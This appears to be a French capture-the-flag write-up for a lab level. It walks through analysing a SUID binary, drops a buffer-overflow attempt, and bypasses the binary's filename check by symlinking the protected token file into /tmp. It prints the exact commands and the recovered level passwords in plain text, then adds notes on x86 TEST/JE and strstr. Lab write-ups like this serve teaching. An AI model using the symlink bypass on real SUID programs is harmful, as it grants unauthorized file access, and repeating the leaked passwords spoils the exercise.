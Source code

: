 LEVEL 08

------------------------------------------------------------------------------------------------------------------------

    find . -user level08 2> /dev/null | grep -v proc
                 flag08
    find . -perm /u=s,g=s 2> /dev/null | grep -v proc
    find . -type f -user flag07 -o -user level08
    find . -maxdepth 1 -name "*string*" -print


* Recherches

    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08*
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token

    Binaire SUID et GUID avec extended right via les ACLs

    getfacl level08
        
        Voir le ss- dans man getfacl 

       Indicates  the  setuid (s), setgid (s), and sticky (t) bits: either the letter representing the bit, or else a dash
       (-). This line is included if any of those bits is set and left out otherwise, so it will not be shown for most files.


    file level08    --> RAS
    ldd level08     --> RAS
    strings level08

        %s [file to read]
        token                     --> Potentiellement un des arguments passés à strstr()
        You may not access '%s'
        Unable to open %s
        Unable to read fd %d

    ltrace ./level08
        
            printf("%s [file to read]\n", "./level08"./level08 [file to read]
    
    strace ./level08

            write(1, "./level08 [file to read]\n", 25./level08 [file to read]) = 25

    Le binaire prend un <file to read>

    objdump -d level08 | awk -F"\n" -v RS="\n\n" '$1 ~ /<main>/'


        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        call   8048400 <strstr@plt>
        call   8048420 <printf@plt>
        call   8048460 <exit@plt>

        8048470 <open@plt>
        call   8048440 <err@plt>
        8048410 <read@plt>
        048490 <write@plt>
        call   8048430 <__stack_chk_fail@plt>

        Anormal le __stack_chk_fail

        https://stackoverflow.com/questions/38418114/why-is-stack-chk-fail-happening-in-my-code

        Answer : One of words exceed MAX_STRING which cause stack overflowed.
                 Stacktrace after crash on __stack_chk_fail only tells you where the problem
                 (stack overflow that smashed the stack) got detected. AddressSanitizer can tell you right when the overflow is happening.

                __stack_chk_fail -- terminate a function in case of stack overflow
                void __stack_chk_fail(void);
                The interface __stack_chk_fail() shall abort the function that called it with a message that a stack overflow has been detected. The program that called the function shall then exit.
                The interface __stack_chk_fail() does not check for a stack overflow itself. It merely reports one when invoked.


    perl -e 'print "A"x100000' > first

    b 37      --> Taille max
    Breakpoint 5 at 0x804868d: file level08.c, line 37.

    En settant des bp avant les call et en affichant les registres, on note qu'edx est set à 400 soit 1024 en décimal
    On constate aussi que c'est la limite du write
    
    perl -e 'print "A"x1000' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1000
    perl -e 'print "A"x1050' > /tmp/first ; ./level08 /tmp/first  | wc   # -> Output 1024 et non 1050

    ---------

    Stop recherches BOF, enfin ne mène à rien car à priori l'objet __stack_chk_fail  traduit l'impossibilité d'exploit via BOF
    Retour à l'idée initiale (skippée sans avoir testé, de fouiner dans les liens symboliques)

    On note un comportement différent quand on passe le fichier token
    Il open/read/write le contenu du fichier passé si celui-ci ne contient pas 'token' dans son nom

        echo pwd > one
        ./level08 /tmp/one
        
        ./level08 token
        
        ./level08 tokden

    Sur le "strings level08", on voit "token", donc à priori c'est le strstr qui l'appelle, et comme il y a pas mal de condition/jump,
    ça peut jusitifer les différences d'output

    Comme en examinant le binaire on ne voit pas d'execv / system, on est quasi sûr que le fichier token contient le flag08

    ./level08 token -> ne passe pas ofc

    echo > one
    ./level08 /tmp/one -> semble fonctionner mais est vide

    On peut créer un liens symbolique du fichier token à un "fichier symbolique" dans /tmp
    pour que l'exécutable prenne en fait bien le fichier token

    ln -s $(pwd)/token /tmp/xxx
    ./level08 /tmp/xxx

    Top, ça fonctionne
    Faille apparement bien connue (suid + symlink)

    su flag08 quif5eloekouj29ke0vouxean
    getflag
    su level09 25749xKZ8L7DkSCwJkT9dyv6f 

    Comme on a tjrs accès à tmp/, on peut créer





------------------------------------------------------------------------------------------------------------------------


NASM :

    L'instruction TEST :

        CMP subtracts the operands and sets the flags. Namely, it sets the zero flag if the difference is zero (operands are equal).

        TEST sets the zero flag, ZF, when the result of the AND operation is zero. If two operands are equal, their bitwise AND is zero when both are zero.
        TEST also sets the sign flag, SF, when the most significant bit is set in the result, and the parity flag, PF, when the number of set bits is even.

        JE [Jump if Equals] tests the zero flag and jumps if the flag is set. JE is an alias of JZ [Jump if Zero] so the disassembler cannot select one based on the opcode.
        JE is named such because the zero flag is set if the arguments to CMP are equal.

            TEST %eax, %eax
            JE   400e77 <phase_1+0x23>
            jumps if the %eax is zero.

            Équivaut à :

            if (eax == 0) {
                goto some_address
            }

STRSTR :

     If needle is an empty string, haystack is returned; if needle occurs nowhere in haystack, NULL is returned; otherwise a pointer to the first character of
     the first occurrence of needle is returned.

     char * strstr(const char *haystack, const char *needle);

DOCS :

    https://www.exploit-db.com/papers/13199
    https://lwn.net/Articles/250468/